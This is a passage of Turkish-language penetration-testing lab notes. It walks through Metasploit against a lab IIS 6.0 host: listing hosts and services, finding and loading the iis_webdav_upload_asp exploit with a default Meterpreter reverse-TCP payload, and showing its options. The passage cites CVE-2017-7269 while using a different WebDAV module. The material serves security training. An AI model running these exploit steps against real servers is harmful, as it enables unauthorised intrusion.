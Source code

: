 ```shell-session

msf6 > hosts

Hosts
=====

address      mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------      ---  ----  -------  ---------  -----  -------  ----  --------
10.10.10.15             Unknown                    device         


msf6 > services

Services
========

host         port  proto  name  state  info
----         ----  -----  ----  -----  ----
10.10.10.15  80    tcp    http  open   Microsoft IIS httpd 6.0
```

Ardından, bu kutuda çalışan hizmetler hakkında bazı bilgilere bakıyoruz. Özellikle, 80 numaralı portu ve burada ne tür bir web hizmetinin barındırıldığını keşfetmek istiyoruz.

![Pasted image 20241027183658.png](/img/user/resimler/Pasted%20image%2020241027183658.png)

Bunun yapım aşamasında bir web sitesi olduğunu fark ediyoruz - burada web ile ilgili hiçbir şey göremiyoruz. Ancak, hem web sayfasının sonuna hem de Nmap taramasının sonucuna daha yakından baktığımızda, sunucunun `Microsoft IIS httpd 6.0` çalıştırdığını fark ediyoruz. Bu yüzden araştırmamızı bu yönde ilerleterek IIS'nin bu sürümü için yaygın güvenlik açıklarını araştırıyoruz. Biraz arama yaptıktan sonra, yaygın bir güvenlik açığı için aşağıdaki işaretleyiciyi buluyoruz: `CVE-2017-7269`. Ayrıca bunun için geliştirilmiş bir Metasploit modülü de var.


#### MSF - Searching for Exploit

```shell-session
msf6 > search iis_webdav_upload_asp

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/iis/iis_webdav_upload_asp  2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution


msf6 > use 0

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp


msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options

Module options (exploit/windows/iis/iis_webdav_upload_asp):

   Name          Current Setting        Required  Description
   ----          ---------------        --------  -----------
   HttpPassword                         no        The HTTP password to specify for authentication
   HttpUsername                         no        The HTTP username to specify for authentication
   METHOD        move                   yes       Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
   PATH          /metasploit%RAND%.asp  yes       The path to attempt to upload
```